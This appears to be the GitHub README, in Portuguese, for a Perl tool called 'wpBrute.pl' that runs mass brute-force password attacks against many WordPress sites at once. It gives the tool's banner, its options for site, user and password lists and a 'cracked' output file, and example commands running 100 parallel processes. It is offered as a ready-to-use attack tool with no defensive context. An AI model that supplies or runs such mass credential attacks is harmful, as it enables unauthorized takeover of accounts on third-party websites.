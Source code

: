 # Mass Wordpress BruteForce

### Descrição:
Script criado para rodar um atque de força bruta em cms Wordpress

### About:

- Coder: v4p0r
- Team: Yunkers Crew && BRLZ PoC
- Twitter: 0x777null
- Skype: drx.priv

### Como usar:

```
$ perl wpBrute.pl

-------------------------
      WP BRUTE FORCE
-------------------------

Coder: v4p0r
Team: Yunkers Crew && BRLZ PoC
Twitter: 0x777nullSkype: drx.priv

Usage: perl wpBrute.pl --help

```

### Help script:
```
$ perl wpBrute.pl.pl --help

-------------------------
      WP BRUTE FORCE
-------------------------
============================================================
                                                   ,   ,
  ,    ,    /\   /\                               /(   )\
 /( /\ )\  _\ \_/ /_    Simples Mass WP Brute v2  \ \_/ /   , /\ ,
 |\_||_/| < \_   _/ >   Criado                    /_   _\  /| || |\
 \______/  \|0   0|/          Por                | \> </ | |\_||_/|
   _\/_   _(_  ^  _)_             v4p0r          (_  ^  _)  \____/
  ( () ) /`\|V"""V|/`\                         /`\|IIIII|/`\ _\/_
    {}   \  \_____/  /  Date: 01 NOV 20        \  \_____/  /  ()
    ()   /\   )=(   /\  Gretz: YC - HighTech   /\   )=(   /\  ()
    {}  /  \_/\=/\_/  \         All Friends   /  `-.\=/.-'  \ ()
============================================================
Usage: wpBrute.pl [comando]
[+] Comandos:
--help         [Ajuda com os comandos]
--list-site|l  [Seleciona sua lista de sites]
--list-user|u  [Seleciona sua lista de user]
--list-pass|p  [Seleciona sua lista de pass]
--list-save|s  [Onde a lista sera salva]
--process|f    [Quantidade de Processos]
               [Defaut 20]

[!] Exemplos:
perl wpBrute.pl --l sites.txt --u user.txt --p pass.txt --f 100
perl wpBrute.pl --l sites.txt --u user.txt --p pass.txt --f 100 --s cracked.txt
perl wpBrute.pl --list-site sites.txt --list-user user.txt --list-pass pass.txt --process 100
perl wpBrute.pl --list-site sites.txt --list-user user.txt --list-pass pass.txt --process 100 --s cracked.txt

```

### Exemple Script Video:

- https://www.youtube.com/watch?v=yRNlZgxw3PQ
